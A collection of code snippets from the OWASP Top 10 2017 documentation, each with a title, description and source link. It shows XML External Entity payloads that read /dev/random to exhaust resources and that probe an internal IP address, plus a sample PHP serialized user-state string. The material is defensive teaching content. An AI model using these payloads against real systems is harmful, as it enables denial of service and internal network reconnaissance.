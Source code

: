----------------------------------------

TITLE: XXE Attack: Denial of Service (Resource Consumption)
DESCRIPTION: This XML snippet illustrates an XXE-based denial-of-service attack. By referencing a potentially endless file like /dev/random, the attacker can cause the XML parser to consume excessive resources, leading to a denial of service.
SOURCE: https://github.com/owasp/top10/blob/master/2017/en/0xa4-xxe.md#_snippet_2

LANGUAGE: XML
CODE:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///dev/random" >]>
<foo>&xxe;</foo>
```

----------------------------------------

TITLE: PHP Object Serialization Example (Normal User State)
DESCRIPTION: This PHP serialized string represents a user's state, typically stored in a 'super' cookie. It includes the user ID (132), username ('Mallory'), role ('user'), and a password hash. This demonstrates how application state can be serialized and passed between client and server.
SOURCE: https://github.com/owasp/top10/blob/master/2017/he/0xa8-insecure-deserialization.md#_snippet_0

LANGUAGE: PHP
CODE:
```
a:4:{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user";i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
```

----------------------------------------

TITLE: XML External Entity (XXE) Denial of Service Attack
DESCRIPTION: Demonstrates an XML External Entity (XXE) attack where an attacker attempts a denial-of-service by defining an external entity that points to a potentially endless file, such as /dev/random on Unix-like systems. This can consume system resources and lead to service unavailability.
SOURCE: https://github.com/owasp/top10/blob/master/2017/OWASP-Top-10-2017-pt-br.html#_snippet_2

LANGUAGE: XML
CODE:
```
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
```

----------------------------------------

TITLE: XXE Attack: Probing Private Network
DESCRIPTION: This XML snippet shows how an attacker can use an XXE vulnerability to probe the server's internal private network. By changing the external entity's SYSTEM identifier to an internal IP address or URL, the attacker can attempt to discover accessible internal resources or services.
SOURCE: https://github.com/owasp/top10/blob/master/2017/ro/0xa4-xxe.md#_snippet_1

LANGUAGE: XML
CODE:
```
 <!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
```
